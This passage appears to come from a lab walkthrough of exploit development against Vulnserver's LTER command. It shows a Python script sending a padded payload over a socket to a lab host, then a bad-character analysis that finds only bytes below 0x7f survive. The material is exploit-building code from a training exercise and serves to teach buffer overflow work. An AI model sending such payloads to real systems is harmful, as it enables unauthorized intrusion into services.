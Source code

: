 ```c
payload+=b"D"*(2500-len(payload))
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"LTER ./"+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/LTER]
└─$ python3 badchars.py 
```

We could see the characters less then ```0x7f``` is stored as it is, and above it are restricted and converted as shown in the code

Seems like, we can only pass ```alpha-numeric``` characters

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/lter-badchars-esp.png" style="width:70%">
</div>

So characters above the hex value ```0x7f``` are considered as ```bad characters``` in this command

It is being ```mangled``` (being converted) in the stack memory

The list of bad characters are,

```c
>>> bad_chars=[]
>>> for x in range(0x80,0xff):
...     bad_chars.append(hex(x))
... 
>>> bad_chars.append(hex(255))
>>> bad_chars.append(hex(0))
>>> bad_chars
['0x80', '0x81', '0x82', '0x83', '0x84', '0x85', '0x86', '0x87', '0x88', '0x89', '0x8a', '0x8b', '0x8c', '0x8d', '0x8e', '0x8f', '0x90', '0x91', '0x92', '0x93', '0x94', '0x95', '0x96', '0x97', '0x98', '0x99', '0x9a', '0x9b', '0x9c', '0x9d', '0x9e', '0x9f', '0xa0', '0xa1', '0xa2', '0xa3', '0xa4', '0xa5', '0xa6', '0xa7', '0xa8', '0xa9', '0xaa', '0xab', '0xac', '0xad', '0xae', '0xaf', '0xb0', '0xb1', '0xb2', '0xb3', '0xb4', '0xb5', '0xb6', '0xb7', '0xb8', '0xb9', '0xba', '0xbb', '0xbc', '0xbd', '0xbe', '0xbf', '0xc0', '0xc1', '0xc2', '0xc3', '0xc4', '0xc5', '0xc6', '0xc7', '0xc8', '0xc9', '0xca', '0xcb', '0xcc', '0xcd', '0xce', '0xcf', '0xd0', '0xd1', '0xd2', '0xd3', '0xd4', '0xd5', '0xd6', '0xd7', '0xd8', '0xd9', '0xda', '0xdb', '0xdc', '0xdd', '0xde', '0xdf', '0xe0', '0xe1', '0xe2', '0xe3', '0xe4', '0xe5', '0xe6', '0xe7', '0xe8', '0xe9', '0xea', '0xeb', '0xec', '0xed', '0xee', '0xef', '0xf0', '0xf1', '0xf2', '0xf3', '0xf4', '0xf5', '0xf6', '0xf7', '0xf8', '0xf9', '0xfa', '0xfb', '0xfc', '0xfd', '0xfe', '0xff', '0x0']
```
